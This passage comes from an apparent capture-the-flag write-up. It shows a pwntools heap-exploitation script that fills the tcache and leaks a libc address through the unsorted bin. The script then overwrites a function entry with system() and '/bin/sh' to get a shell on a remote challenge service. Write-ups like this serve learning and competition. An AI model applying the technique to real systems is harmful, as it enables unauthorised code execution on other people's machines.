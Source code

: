 ```py:exploit.py
    io.sendlineafter(b"Page?", encode(page))
    io.recvlines(5)

def show(page):
    io.sendline(b"3")
    io.sendlineafter(b"Page?", encode(page))
    io.recvuntil(b"Page content: ")
    return io.recvline()

# fill tcache
for i in range(10): alloc(0x7f, i, "ashfaq-the-goat")
for i in range(7): free(i)

# get libc-leak from unsorted-bin
free(7)
leak = show(7)
libc_leak = fixleak(leak)

info("got libc leak @  %#x" % libc_leak)
libc.address = libc_leak - 0x21ace0
info("libc-base @ %#x" % libc.address)

# Since we control the argument passed, we can easily write "/bin/sh"
# And 0th index is executed, so win win.
alloc(0x7f, 0, hex(libc.sym.system))
alloc(0x7f, 1, b"/bin/sh\x00")

# # invoke the calling function
io.sendline(b"42")

io.interactive()
```

Running this against the remote and getting the flag:

![alt text](/static/writeups/htb-cyberapocalypse/image-10.png)

Overall, this challenge was rated medium but it was pretty simple and required just simple knowledge of the heap.
